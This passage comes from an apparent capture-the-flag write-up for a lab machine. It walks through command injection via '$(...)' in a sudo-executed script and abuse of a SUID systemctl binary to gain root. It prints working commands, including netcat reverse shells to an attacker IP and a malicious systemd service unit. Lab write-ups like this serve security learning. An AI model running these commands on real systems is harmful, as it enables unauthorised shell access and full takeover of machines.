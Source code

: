 This means we can execute whatever we want before the actual *ping* is made. Since the character '-' is filtered, some
of our options are restricted as we cannot supply any options to the commands. However, the character '/' is allowed,
which means we can create a *shell script*, give it execution permissions and then supply the path to that script inside
the '$(...)' construct.

```bash
export REVSHELL='/dev/shm/revshell.sh'
echo 'nc -n 10.10.14.125 4338 -e /bin/bash' > $REVSHELL && chmod +x $REVSHELL
echo '$('$REVSHELL')' | sudo -u pepper /var/www/Admin-Utilities/simpler.py -p
```

That should be enough to give us a reverse shell as user *pepper*. The next step is to head to */home/pepper* directory
and read the *user.txt* flag.

## Root

As part of the usual enumeration, we can have a look at the *SUID* binaries:

```
pepper@jarvis:~$ find / -perm -4000 -type f -ls 2>/dev/null
  1310951     32 -rwsr-xr-x   1 root     root        30800 Aug 21  2018 /bin/fusermount
  1310809     44 -rwsr-xr-x   1 root     root        44304 Mar  7  2018 /bin/mount
  1310906     60 -rwsr-xr-x   1 root     root        61240 Nov 10  2016 /bin/ping
  1312201    172 -rwsr-x---   1 root     pepper     174520 Feb 17  2019 /bin/systemctl
  1310810     32 -rwsr-xr-x   1 root     root        31720 Mar  7  2018 /bin/umount
  1310807     40 -rwsr-xr-x   1 root     root        40536 May 17  2017 /bin/su
  1444734     40 -rwsr-xr-x   1 root     root        40312 May 17  2017 /usr/bin/newgrp
  1441873     60 -rwsr-xr-x   1 root     root        59680 May 17  2017 /usr/bin/passwd
  1441872     76 -rwsr-xr-x   1 root     root        75792 May 17  2017 /usr/bin/gpasswd
  1441870     40 -rwsr-xr-x   1 root     root        40504 May 17  2017 /usr/bin/chsh
  1453559    140 -rwsr-xr-x   1 root     root       140944 Jun  5  2017 /usr/bin/sudo
  1441869     52 -rwsr-xr-x   1 root     root        50040 May 17  2017 /usr/bin/chfn
  1574579     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
  1707587    432 -rwsr-xr-x   1 root     root       440728 Mar  1  2019 /usr/lib/openssh/ssh-keysign
```

Apart from the usual ones, we have **/bin/systemctl** available. This binary usually requires *root* privileges for a reason,
it controls the "System and Service Manager". With such power, we can exploit it to access the file system, escalate or mantain
access with elevated privileges. From [GTFOBins](https://gtfobins.github.io/):

```bash
TF=$(mktemp).service
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "nc -e /bin/bash 10.10.14.125 4339"
[Install]
WantedBy=multi-user.target' > $TF
/bin/systemctl link $TF
/bin/systemctl enable --now $TF
```

This will grant us a reverse shell and we will have full access to the machine.
